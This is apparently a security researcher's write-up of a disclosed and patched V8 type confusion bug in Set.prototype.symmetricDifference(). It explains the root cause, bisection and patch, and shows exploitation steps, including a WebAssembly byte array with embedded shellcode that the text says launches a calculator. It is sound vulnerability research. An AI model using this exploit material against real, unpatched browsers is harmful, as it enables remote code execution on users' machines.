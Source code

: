 # Issue 41483297 (Type Confusion in V8)

One day, I noticed that [Issue 40069798](https://issues.chromium.org/issues/40069798) which was a type confusion bug in V8 was disclosed. This bug was awarded $15,000 for renderer RCE, but no CVE number was assigned because it was living in experimental feature and only could be triggered under `--harmony` or `--harmony-set-methods` flag in V8. While studying this bug, I tried fuzzing targeting Harmony Set methods in which it was living, with a light heart. Not long after, I unexpectedly got a same `DCHECK` failing crash, and could successfully achieve RCE in the same way. In this post, I will analyze and exploit my bug, [Issue 41483297](https://issues.chromium.org/issues/41483297).

Before reading, I recommend you to read [my post for Issue 40069798](https://aaronsjcho.github.io/Issue-40069798/) first, because I will omit many overlapping contents in here.

## Setup

- Ubuntu 22.04.5 LTS
- [1976a3f375fb686a12d0577b0a01b164d8481414](https://chromium.googlesource.com/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414) (Dec 12th, 2023)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### Root cause

[`Set.prototype.symmetricDifference()`](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Set/symmetricDifference) method is handled by [`SetPrototypeSymmetricDifference()`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=8). It calls [`GetKeysIterator()`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/collections.tq;l=311) to get [`keysIter`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=25) which is iterator of `other`, after getting [`table`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=22) of `receiver`. `GetKeysIterator()` internally [calls](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/collections.tq;l=315) [`keys()`](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Set/keys) method of `other`. We can let arbitrary JavaScript code be executed at this point, by redefining `keys()` method of `other`. If we make table of `receiver` to be grown or shrunk by adding or deleting element, new table is allocated and its address is stored in the size field of old table. However, corrupted old `table` is used as it is after `GetKeysIterator()` is returned. It is [set to table of  new `Set`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=122) which is returned to us, going through [`resultSetData`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=29), [`resultAndNumberOfElements.setData`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=32), and [`shrunk`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=115). This can cause type confusion.

### Proof of concept

[`poc.js`](./poc.js)

![](img/1.png)

![](img/2.png)

![](img/3.png)

![](img/4.png)

We can see that the address of table of `a` (blue box) is stored in the size field of table of `s` (green box). Thus, we can get an `OrderedHashSet` object which is table of `a`, by reading `s.size`.

![](img/5.png)

### Bisection

> [[set-methods]Getting other before receiver's table](https://chromium.googlesource.com/v8/v8/+/9e0005d745067c5dab681d9c95483bc71c317e2d) (Aug 18th, 2023)
>
> This CL fix the issue of clearing receiver in case of having user arbitraty code in the `other`.

The bug has been existed since `symmetricDifference()` method was added, but was exposed when the previous bug was patched in the commit above.

### Patch

> [[set-methods]Get receiver's table after other's keys()](https://chromium.googlesource.com/v8/v8/+/4d0ea4aac11c66481e0bf6c2b1e9308a1b442aff) (Dec 12th, 2023)
>
> This CL fixes the issue of clearing receiver's table in case of having user's arbitrary code in other's keys().

## Exploitation

[`shellcode.py`](./shellcode.py) [`pwn.wat`](./pwn.wat) [`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/6.png)

## References

- [Security: Type confusion in Harmony Set methods (Leads to RCE) - Chromium Issues](https://issues.chromium.org/issues/41483297)
